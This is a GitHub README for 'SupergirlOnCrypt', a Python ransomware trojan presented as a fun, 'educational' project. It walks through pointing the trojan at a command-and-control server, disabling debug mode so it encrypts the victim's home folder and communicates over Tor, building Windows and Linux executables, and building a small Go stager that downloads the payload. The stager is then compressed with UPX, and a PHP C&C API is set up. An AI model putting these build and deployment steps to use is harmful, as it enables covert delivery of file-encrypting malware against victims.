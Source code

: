 # SupergirlOnCrypt :heart: :punch: :boom:

![Project Logo](https://thoughtful-dev.com/projects/supergirloncrypt/header.jpg)

**For EDUCATIONAL PURPOSE ONLY**

This is a Crypto Trojan written in Python which can be packed using Pyinstaller... 
and i :heart: Supergirl so there you go.

**To decrypt the Data the Victim has to answer some Questions about Supergirl! (No Payment required since it was just a fun Project)**

## Content
1. [Requirements](#requirements)
2. [Setup](#setup)
3. [Building](#building)
---
![Image while Building](https://thoughtful-dev.com/projects/supergirloncrypt/term.png)
---
## Requirements

Both Windows AND Linux must have Python >= 3.5 installed to build the Executable/Binary.

Optionally you need the Golang compiler if you want to use the Go Stager because the Binary with Pyinstaller is quite large (~60mb - Linux , 30mb - Windows)
(Go Stager is only ~700kb).

---
## Setup

We will generate the API´s public and private key in this process.
So if you first generate a binary for Linux as shown here then you have to copy the whole repository folder to the windows box and only choose to recreate the `venv`.
## The Trojan

1. Change the API_URL in App/Config.py to your C&C Server URL
2. Disable DEBUG_MODE (Leave it on if your API is running locally because otherwise Tor cant reach your local network)
3. Optionally change your File Types
4. Build Executables/Binary for Windows and/or Linux
5. Setup API

## Overview of DEBUG True vs False
Debug On | Debug Off
------------ | -------------
Creates a logfile | No logfile
Does not user Tor | Uses Tor to communicate
Encrypts Folder `./test_files` | Encrypts Users HomeFolder

**If you are Testing leave the DEBUG MODE ON OR USE A VM**


## Building

### Linux
```
$ cd Scripts
$ ./supergirl.sh setup python3
$ ./supergirl.sh build
```
**Now copy the whole folder to the Windows VM/Machine where you want to build the Windows Executable. When running the `supergirl.ps1` ONLY recreate the `venv` and NOT the Keys since they are already generated from our Linux Setup.** *

*Optionally you can also clone the Repo to the Windows Machine and only replace `API/bin/private.key` and `App/res/server.public.key`

**This also applies vice versa**

### Windows
```
PS> cd Scripts
PS> .\supergirl.ps1 -mode setup -path C:\\...\\python.exe
PS> .\supergirl.ps1 -mode build
```

### Building Stager
1. Upload your Binary which you gathered from the previous step
2. Go to `./Stagers/Go` and open `main.go`
3. Change line 39 `var url string = "your-direct-download-url-here"`

#### Building a Linux Stager
4. `GOOS=linux go build -ldflags="-s -w" -o stager main.go`

#### Building a Windows Stager
5. `GOOS=windows GOARCH=386 go build -ldflags="-s -w -H=windowsgui" -o stager.exe main.go`

6. Optionally compress the Stager(.exe) binary with upx

7. LINUX: `upx --ultra-brute -o compressed_stager stager`
7. WINDOWS: `upx.exe --ultra-brute -o compressed_stager.exe stager.exe`
8. Done

## API

Since we communicate with our API we need to set it up. The API(located in ./API duhh) is written in PHP so any Linux /Win Server will do.
On your Ubuntu C&C Server run:
```
$ sudo add-apt-repository ppa:ondrej/php
$ sudo apt update
$ sudo apt install apache2 php7.1 libapache2-mod-php7.1 php7.1-mbstring php7.1-sqlite3 php7.1-xml
$ sudo apt install composer unzip
```
Now copy the API Folder to your Server in the www root

```
$ cd /var/html
$ composer install
```
We need to install python to decrypt our keys if a user wants to decrypt
```
$ sudo apt install python3 python3-dev python3-pip
$ pip3 install cryptography
```
Your API should now be ready on http://ip/public (should respond with 501)

**I wont show you how to setup a Tor hidden Service**



# Disclaimer

### FOR EDUCATIONAL PURPOSE ONLY I AM NOT RESPONSIBLE FOR ANYTHING
```
            DO WHAT THE FUCK YOU WANT TO PUBLIC LICENSE
                    Version 2, December 2004

 Copyright (C) 2017 ThoughtfulDev

 Everyone is permitted to copy and distribute verbatim or modified
 copies of this license document, and changing it is allowed as long
 as the name is changed.

            DO WHAT THE FUCK YOU WANT TO PUBLIC LICENSE
   TERMS AND CONDITIONS FOR COPYING, DISTRIBUTION AND MODIFICATION

  0. You just DO WHAT THE FUCK YOU WANT TO.
```
---
I have no Idea if you understand this README. 

